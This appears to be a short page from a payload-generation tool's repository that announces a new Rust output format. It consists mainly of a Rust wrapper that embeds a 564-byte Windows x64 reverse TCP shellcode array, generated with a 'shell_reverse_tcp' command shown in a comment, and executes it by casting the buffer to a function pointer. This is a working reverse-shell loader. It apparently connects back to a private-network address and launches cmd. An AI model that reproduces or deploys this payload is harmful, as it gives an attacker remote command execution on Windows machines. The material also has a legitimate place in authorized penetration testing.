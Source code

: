Congratulations, you have successfully added a new format!


To test it I used the following wrapper from [winsecurity](https://github.com/winsecurity/Offensive-Rust/blob/main/shellcode_injection/src/main.rs):

```rust
fn main() {
    
    #[link_section = ".text"]
    // /usr/local/bin/sickle -p windows/x64/shell_reverse_tcp LHOST=X LPORT=Y -f rust -v buffer
    // size: 564 bytes
    static buffer:[u8;564] = [
    0x55,0x48,0x89,0xe5,0x48,0x81,0xec,0x20,0x01,0x00,0x00,0x48,0x83,0xe4,0xf0,
    0xe8,0x7f,0x01,0x00,0x00,0x48,0x89,0xc7,0x48,0xba,0x8e,0x4e,0x0e,0xec,0x00,
    0x00,0x00,0x00,0xe8,0xa0,0x01,0x00,0x00,0x48,0x89,0x45,0xf8,0x48,0xc7,0xc2,
    0x72,0xfe,0xb3,0x16,0xe8,0x90,0x01,0x00,0x00,0x48,0x89,0x45,0xf0,0x48,0xc7,
    0xc2,0x83,0xb9,0xb5,0x78,0xe8,0x80,0x01,0x00,0x00,0x48,0x89,0x45,0xe8,0x48,
    0xb9,0x57,0x73,0x32,0x5f,0x33,0x32,0x2e,0x64,0x48,0x89,0x4d,0xb0,0x66,0xb9,
    0x6c,0x6c,0x66,0x89,0x4d,0xb8,0x48,0x31,0xc9,0x88,0x4d,0xba,0x48,0x8d,0x4d,
    0xb0,0x48,0x8b,0x45,0xf8,0xff,0xd0,0x48,0x89,0xc7,0x48,0xc7,0xc2,0xcb,0xed,
    0xfc,0x3b,0xe8,0x47,0x01,0x00,0x00,0x48,0x89,0x45,0xe0,0x48,0xba,0xd9,0x09,
    0xf5,0xad,0x00,0x00,0x00,0x00,0xe8,0x34,0x01,0x00,0x00,0x48,0x89,0x45,0xd8,
    0x48,0xc7,0xc2,0xec,0xf9,0xaa,0x60,0xe8,0x24,0x01,0x00,0x00,0x48,0x89,0x45,
    0xd0,0x48,0xc7,0xc1,0x02,0x02,0x00,0x00,0x48,0x8d,0x55,0xa8,0x48,0x8b,0x45,
    0xe0,0xff,0xd0,0xb9,0x02,0x00,0x00,0x00,0xba,0x01,0x00,0x00,0x00,0x49,0xc7,
    0xc0,0x06,0x00,0x00,0x00,0x4d,0x31,0xc9,0x4c,0x89,0x4c,0x24,0x20,0x4c,0x89,
    0x4c,0x24,0x28,0x48,0x8b,0x45,0xd8,0xff,0xd0,0x48,0x89,0xc6,0x48,0x89,0xc1,
    0x49,0xc7,0xc0,0x10,0x00,0x00,0x00,0x48,0x8d,0x55,0xa0,0x49,0xb9,0x02,0x00,
    0x10,0x92,0xc0,0xa8,0x5b,0x86,0x4c,0x89,0x0a,0x4d,0x31,0xc9,0x4c,0x89,0x4a,
    0x08,0x48,0x8b,0x45,0xd0,0xff,0xd0,0x48,0x8d,0xbd,0x38,0xff,0xff,0xff,0x48,
    0x89,0xfb,0x31,0xc0,0xb9,0x1a,0x00,0x00,0x00,0xf3,0xab,0xb8,0x68,0x00,0x00,
    0x00,0x89,0x03,0xb8,0x00,0x01,0x00,0x00,0x89,0x43,0x3c,0x48,0x89,0x73,0x50,
    0x48,0x89,0x73,0x58,0x48,0x89,0x73,0x60,0x31,0xc9,0x48,0x89,0xea,0x48,0x8d,
    0x95,0x30,0xff,0xff,0xff,0x48,0x31,0xc0,0xb8,0x63,0x6d,0x64,0x00,0x48,0x89,
    0x02,0x4d,0x31,0xc0,0x4d,0x31,0xc9,0x31,0xc0,0xff,0xc0,0x48,0x89,0x44,0x24,
    0x20,0xff,0xc8,0x48,0x89,0x44,0x24,0x28,0x48,0x89,0x44,0x24,0x30,0x48,0x89,
    0x44,0x24,0x38,0x48,0x89,0x5c,0x24,0x40,0x48,0x8d,0x9d,0x28,0xff,0xff,0xff,
    0x48,0x89,0x5c,0x24,0x48,0x48,0x8b,0x45,0xf0,0xff,0xd0,0x48,0x31,0xc9,0x48,
    0xff,0xc9,0x48,0x31,0xd2,0x48,0x8b,0x45,0xe8,0xff,0xd0,0xc9,0xc3,0x55,0x48,
    0x89,0xe5,0xb2,0x4b,0x48,0xc7,0xc1,0x60,0x00,0x00,0x00,0x65,0x4c,0x8b,0x01,
    0x49,0x8b,0x78,0x18,0x48,0x8b,0x7f,0x10,0x48,0x31,0xc9,0x48,0x8b,0x47,0x30,
    0x48,0x8b,0x77,0x60,0x48,0x8b,0x3f,0x66,0x39,0x4e,0x18,0x75,0xec,0x38,0x16,
    0x75,0xe8,0xc9,0xc3,0x55,0x48,0x89,0xe5,0x8b,0x5f,0x3c,0x48,0x81,0xc3,0x88,
    0x00,0x00,0x00,0x48,0x01,0xfb,0x8b,0x03,0x48,0x89,0xfb,0x48,0x01,0xc3,0x8b,
    0x43,0x20,0x49,0x89,0xf8,0x49,0x01,0xc0,0x48,0x8b,0x4b,0x18,0x67,0xe3,0x43,
    0xff,0xc9,0x41,0x8b,0x04,0x88,0x48,0x89,0xfe,0x48,0x01,0xc6,0x4d,0x31,0xc9,
    0x48,0x31,0xc0,0xfc,0xac,0x84,0xc0,0x74,0x09,0x41,0xc1,0xc9,0x0d,0x49,0x01,
    0xc1,0xeb,0xf2,0x41,0x39,0xd1,0x75,0xd7,0x44,0x8b,0x43,0x24,0x49,0x01,0xf8,
    0x48,0x31,0xc0,0x66,0x41,0x8b,0x04,0x48,0x44,0x8b,0x43,0x1c,0x49,0x01,0xf8,
    0x41,0x8b,0x04,0x80,0x48,0x01,0xf8,0xc9,0xc3 ];

    let bufferptr = &buffer as *const u8;

    unsafe{
       let exec =std::mem::transmute::<*const u8,fn()>(bufferptr);
        exec();
    }
}
```
